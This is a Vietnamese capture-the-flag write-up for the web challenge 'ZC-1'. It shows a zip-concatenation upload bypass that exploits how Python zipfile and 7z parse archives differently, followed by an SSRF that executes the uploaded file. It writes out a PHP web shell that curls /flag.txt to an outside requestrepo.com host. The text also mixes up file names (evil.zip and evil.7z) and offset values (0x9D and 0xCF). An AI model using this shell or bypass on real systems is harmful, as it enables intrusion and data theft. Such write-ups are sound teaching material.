 
+++
date = '2025-10-21T09:59:34+07:00'
draft = false
title = 'CSCV2025 | Web | ZC-1'
+++

# ⚔️ ZC-1

- **Category:** Web
- **Difficulty:** _
- **Author:** _
- **Description**: _
- **Resource**: _


![image](https://hackmd.io/_uploads/S1omJ7XAex.png)


# 🛰️Recon

## Tổng quan chung: 

Challenge bao gồm 2 ứng dụng web với:
- app1 là ứng dụng web Python cho phép đăng kí, đăng nhập, và upload file zip, ứng dụng được expose với port 8080
- app2 là ứng dụng web Php phục vụ cho việc giải nén là lưu trữ các file vừa upload, ứng dụng không thể truy cập từ bên ngoài mà chỉ có thể thông qua app1 hoặc từ bên trong

## Chi tiết

### App1
Ứng dụng bao gồm các endpoint sau (bỏ qua một số chi tiết không quan trọng):
- POST `/gateway/user` : cho phép người đăng kí với các trường username, password
- POST `/gateway/transport` : cho phép người dùng đã xác thực upload file zip
    - Endpoint này sử dụng thư viện `zipfile` trong python để thực hiện kiểm tra file extension của các file entry trong file zip được upload dựa trên whilelist trước khi gửi nó đến endpoint `upload.php` của app2
- GET `/gateway/health` : nhận vào param `module` cho phép người dùng kiểm tra hoạt động của các endpoint tại app2
- POST `auth/token` : thực hiện xác thực người dùng với username và password, trả vể session token (sử dụng cho việc xác thực) và refresh token

### App2
Ứng dụng bao gồm các endpoint sau
- POST `upload.php`: cho phép upload file zip (từ app1) và thực hiện giải nén file zip và lưu các file sau khi đã giải nén trong folder `upload/<user_id>`
- `health.php`: một file rỗng chỉ nhằm mục đích kiểm tra kết nối, hoạt động của app2

# 🧪 Dig & Analyze
Dựa trên cấu trúc của challenge, hệ thống cho phép upload file zip sau đó thực hiện giải nén và lưu trữ các file entry trong ứng dụng web Php (thư mục lưu trữ file không có cấu hình để ngăn việc thực thi file .php). Vậy mục tiêu challenge ở đây khả năng cao là upload web shell thông qua việc upload file zip chứa file entry nguy hiểm. 

Dựa trên mục tiêu trên, có 2 vấn đề cần giải quyết:
## 1. Làm thế nào để bypass được file extension check ở app1 -> Zip Concatenation
Trong khi app1 thực hiện kiểm tra file zip upload với thư viện `zipfile` thì app2 lại sử dụng `Archive7z\Archive7z` hay công cụ `7z` để thực hiện giải nén file zip. 

>Bạn có thể chủ động tìm hiểu thêm về cấu trúc file zip để hiểu rõ hơn bài wriuteup, bài wriueup không đi sâu vào phân tích cấu trúc file zip hay giải thích cụ thể về lỗ hổng zip concatenation

Đi vào chi tiết hơn cách mà 2 trình zip parser này hoạt động:

- **Đối với `python zipfile`**, trình đọc zip này không bắt đầu đọc từ đầu tệp mà thay vào đó, nó quét ngược từ cuối file để tìm kiếm lần lượt **End of Central Directory**,  **Central Directory**, **file entry** dựa trên offset.
    ![image](https://hackmd.io/_uploads/rkWyeumCll.png)
- **Đối với `7z`**, định dạng này đặt signature và các header của nó ở đầu tệp. Công cụ 7z bắt đầu phân tích file zip từ đầu tệp (offset = 0)
    ![image](https://hackmd.io/_uploads/SJBGg_QRgl.png)
    
-> Điểm không đồng nhất ở đây cùng với hình ảnh mô tả của challenge gợi cho tôi ý tưởng về việc tận dụng điểm khác biệt của 2 trình zip parser để tạo một file zip hợp lệ với cả 2 trình parser tuy nhiên nội dung đọc được của chúng lại khác nhau bởi cơ chế phân tích của chúng khác nhau.

Tìm hiểu thêm một vài kĩ thuật tấn công liên quan đến định dạng file Zip tôi tìm được kĩ thuật **Zip Concatenation** phù hợp với tình huống lỗ hổng này

## 2. Làm thế nào để có thể thực thi file php nếu đã upload được thành công -> SSRF
Ứng dụng app1 cho phép kiểm tra hoạt động của backend tại endpoint GET `/gateway/health`. Endpoint này nhận vào params `module`, input này được nối chuỗi vào `storage_url` mà không qua kiểm tra sàng lọc dẫn đến có thể khai thác SSRF ở đây để gọi đến file php được upload -> Thực thi thành công file .php
![image](https://hackmd.io/_uploads/HkQzR770lx.png)

# 🔥 Exploit

## Tạo payload
1. Tạo file zip an toàn chứa các file entry phù hợp với whitelist của challenge
```bash
echo helloworld > user.txt
zip user.zip user.txt >/dev/null
```
2. Tạo 7z archive chứa web shell 
```bash
echo '<?php system("curl https://w4zhdt6e.requestrepo.com/ -F \"file=@/flag.txt\"") ?>' > shell.php
7z a -t7z evil.7z shell.php >/dev/null
```
![image](https://hackmd.io/_uploads/B1Fc8jmRxe.png)


File này có kích thước là 207 bytes (0xCF bytes)

3. Chỉnh sửa payload sao cho hợp lệ với zipfile

Chúng ta sẽ thực hiện nối 2 file đơn giản bằng việc sử dụng lệnh cat
```
cat evil.zip user.zip > zipconcat.zip
```

Tuy nhiên file zip này chưa hợp lệ bởi việc thêm trước file zip một file 7z sẽ khiến offset của phần user.zip bị thay đổi, do đó cần thực hiện chỉnh sửa offset sao cho payload này hợp lệ với zipfile


Các 2 vị trí offset cần thay đổi (9D bởi thêm vào trước file này 0x9D bytes) là:
- offset tới Central Directory:
    - nằm trong phần End of Centrol directory
    - có giá trị là 4D 
    - chỉnh sửa thành `11C = 4D + CF`
- offset tới Local file Header 
    - nằm tại offset 42 tình từ đầu mỗi Central Directory
    - có giá trị là 00 
    - chỉnh sửa thành `CF = 00 + CF`

![image](https://hackmd.io/_uploads/ByUSdi7Agl.png)

Trực tiếp thay đổi offset bằng việc sử dụng hex editor

![image](https://hackmd.io/_uploads/SJzXYoXRgx.png)

```bash
cat evil.7z user.zip > zipconcat.zip
```

4. Kiểm tra file với python zipfile
![image](https://hackmd.io/_uploads/Hkxtz5XCle.png)

5. Kiểm tra file zip với 7z
Vì tập lệnh đặt tệp lưu trữ 7z ở ngay đầu tệp được kết hợp, nên các công cụ 7z sẽ coi tệp được kết hợp như một tệp lưu trữ 7z bình thường và trích xuất nội dung 7z (tệp PHP trong ví dụ của bạn) mà không cần động đến các cấu trúc ZIP được thêm vào phía dưới
![image](https://hackmd.io/_uploads/BJcpMcQRxg.png)
Mặc dù có thông báo lỗi bởi 7z phát hiện còn các bytes ở cuối file nhưng payload vẫn được giải nén thành công
![image](https://hackmd.io/_uploads/r18ZQ5X0ee.png)

## Thực hiện tấn công
Tạo tài khoàn người dùng và lấy Authorization token (JWT):

![image](https://hackmd.io/_uploads/rycWGimRlg.png)


![image](https://hackmd.io/_uploads/H1i1zjQRxe.png)


Thực hiện upload file payload vừa tạo với Authorization header chứa token vừa lấy được

![image](https://hackmd.io/_uploads/ryTOMjmAex.png)


Thực hiện SSRF thể thực thi file php đã upload, tuy nhiên cần xác định được vị trí của file trên server

![image](https://hackmd.io/_uploads/Byhx3qmRxl.png)

File sau khi extract được lưu tại thư mục `upload/<user_id>`, chúng ta có thể dễ dàng tìm được user id trong JWT token

![image](https://hackmd.io/_uploads/r1lafjmCee.png)

Thực hiện SSRF

![image](https://hackmd.io/_uploads/SkFocoQRxx.png)

Mặc dù request trả về "ERR" nhưng chúng ta vẫn thành công lấy được flag

![image](https://hackmd.io/_uploads/r1wxjo70el.png)


# 🏆 EXP
-> Zip Concatenation


